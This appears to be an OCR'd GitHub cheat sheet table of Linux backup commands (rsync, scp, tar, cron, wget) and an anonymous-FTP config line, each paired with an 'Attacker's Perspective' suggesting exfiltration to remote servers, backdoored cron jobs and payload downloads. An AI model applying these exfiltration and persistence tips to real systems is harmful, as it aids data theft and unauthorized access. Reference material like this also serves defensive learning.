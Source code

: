 |                     | **`echo "anonymous_enable=YES" >> /etc/vsftpd.conf && systemctl restart vsftpd`** | Enables anonymous FTP access. | Misconfigure FTP servers to allow unauthorized access for reconnaissance or exploitation.                     |

---

### Backup and Restore Commands
This are backup and restore commands for attackers to understand the backup and restore, the backup and restore user, the backup and restore group, the backup and restore start time, the backup and restore end time, the backup and restore memory usage, the backup and restore CPU usage, the backup and restore command line, and the backup and restore arguments.

| **Command**                          | **Description**                                                                                       | **Attacker’s Perspective**                                                                                           |
|--------------------------------------|-------------------------------------------------------------------------------------------------------|----------------------------------------------------------------------------------------------------------------------|
| **`rsync`**                          | Synchronizes files and directories between two locations.                                             | Use for automated data exfiltration or synchronizing malicious files to a remote server.                            |
| | **1. `rsync -av /path/to/source /path/to/destination`** | Synchronizes files, preserving attributes and providing verbose output.                            | Exfiltrate sensitive data while keeping metadata intact for analysis.                                               |
| | **2. `rsync -avz --backup --delete /path/to/source user@remote:/backup/dir`** | Creates compressed, incremental backups with deleted files removed.                                | Maintain stealthy backups of modified or deleted sensitive files for later exploitation.                            |
| | **3. `rsync -avz -e ssh /path/to/source user@remote:/backup/dir`** | Securely synchronizes files over an encrypted SSH connection.                                       | Exfiltrate files securely without being intercepted over the network.                                               |
| **`duplicity`**                      | Creates encrypted, compressed backups to local or remote destinations.                               | Exploit misconfigurations in encrypted backups to extract sensitive data.                                           |
| | **1. `duplicity /source/dir file:///backup/dir`** | Creates a local encrypted backup.                                                                  | Investigate backup configurations for weak encryption keys or file paths.                                           |
| **`deja-dup`**                       | Simplifies the backup process with a graphical interface for local or remote backups.                | Exploit default configurations to access backup files or manipulate data.                                           |
| **`scp`**                            | Securely copies files between hosts over SSH.                                                        | Use as an alternative to rsync for secure file exfiltration or retrieval.                                           |
| | **1. `scp user@remote:/backup/dir /local/dir`** | Copies files from a remote backup server to the local system.                                      | Retrieve valuable files from a compromised backup server.                                                           |
| **`tar`**                            | Archives and compresses files into a single file.                                                    | Bundle and compress files for easier exfiltration or analysis.                                                      |
| | **1. `tar -czf backup.tar.gz /path/to/data`** | Creates a compressed archive of the specified directory.                                           | Extract and analyze bundled sensitive files for exploitation.                                                       |
| **`chmod`**                          | Modifies permissions for backup scripts or files.                                                    | Grant executable permissions to malicious scripts hidden in backup processes.                                       |
| | **1. `chmod +x RSYNC_Backup.sh`** | Enables execution of an rsync backup script.                                                        | Weaponize backup scripts to execute malicious commands during scheduled jobs.                                        |
| **`cron`**                           | Automates tasks by scheduling jobs at specific intervals.                                             | Exploit scheduled backups to introduce malicious scripts or backdoors.                                              |
| | **1. `0 * * * * /path/to/RSYNC_Backup.sh`** | Schedules an rsync backup script to run every hour.                                                | Modify scheduled cron jobs to execute attacker-controlled scripts.                                                  |
| **`ssh`**                            | Provides secure remote access and file transfer.                                                     | Establish encrypted connections for data exfiltration or manipulation.                                              |
| **`wget`**                           | Downloads files from the internet, often used in backup automation scripts.                          | Download malicious payloads disguised as legitimate backups.                                                        |